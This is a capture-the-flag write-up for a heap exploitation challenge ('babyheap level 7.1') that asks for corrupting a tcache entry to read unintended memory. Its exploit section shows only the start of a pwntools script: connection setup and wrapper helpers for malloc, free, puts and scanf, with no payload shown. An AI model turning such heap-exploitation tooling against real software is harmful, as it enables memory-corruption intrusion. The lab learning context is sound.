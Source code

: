 ## Information

- Category: Pwn

## Description

> Corrupt the TCACHE entry_struct to read unintended memory.

## Write-up

参见 [Level 7.0](#level-70)。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    p32,
    process,
    raw_input,
    remote,
)

FILE = "/challenge/babyheap_level7.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))
    target.sendlineafter(b"Size: ", str(size).encode("ascii"))


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))
    target.sendline(data)
```